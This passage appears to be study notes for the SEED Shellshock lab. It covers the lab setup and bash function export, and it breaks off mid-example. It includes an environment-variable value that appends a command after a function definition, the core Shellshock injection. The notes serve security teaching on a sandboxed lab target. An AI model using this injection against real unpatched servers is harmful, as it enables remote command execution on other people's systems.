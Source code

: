 # Shellshock Vulnerability Lab
- Shellshock vulnerability can exploit many systems and be launched either remotely or from a local machine
- topics
    - Shellshock
    - Environment variables
    - Function definition in bash
    - Apache and CGI programs

## Environment Setup
- DNS Setting: add an entry `10.9.0.80 www.seedlab-shellshock.com` to `/etc/hosts`
- Web Server and CGI: CGI is a standard method used to generate dynamic content on web pages and for web application, many CGI programs are shell scripts, so before the actual CGI program runs, a shell program will be invoked first, and such an invocation is triggered by users from remote computers
- If the shell program is a vulnerable bash program, we can exploit the Shellshock vulnerability to gain privileges on the server

## Task 1: Experimenting with Bash Function
- in Ubuntu 20.04, the bash program has already been patched, for this lab, use `Labsetup/image_www/bash_shellshock`
- shell functions
    - we can declare a shell function
    ```
    $ foo(){ echo "hello"; }
    $ declare -f foo
    foo ()
    {
        echo "hello";
    }
    $ foo
    hello
    $ unset -f foo <-- remove it
    $ declare -f foo <-- nothing happened
    ```
- passing shell function to child process
    - approach 1: define a function, export it, then the child process will have it
        ```
        $ foo(){ echo "hello"; }
        $ export -f foo
        $ bash <-- create a child process to run another bash
        $ foo
        hello
        ```
    - approach 2: define an environment variable, it will become a function definition in the child bash process (`foo` has to start with `() { `, the spaces before and after `{` cannot be omitted)
        ```
        $ foo='() { echo "hello";}'
        $ echo $foo
        () { echo "hello";}
        $ export foo
        $ bash
        $ foo
        hello
        ```
- on `bash_shellshock`
    - the vulnerability is that if we append a command in `foo`, it will be executed when passing to child procee: `foo='() { echo "hello";}; ls;'`
        ```
        $ foo='() { echo "hello";}'
        $ echo $foo
        () { echo "hello";}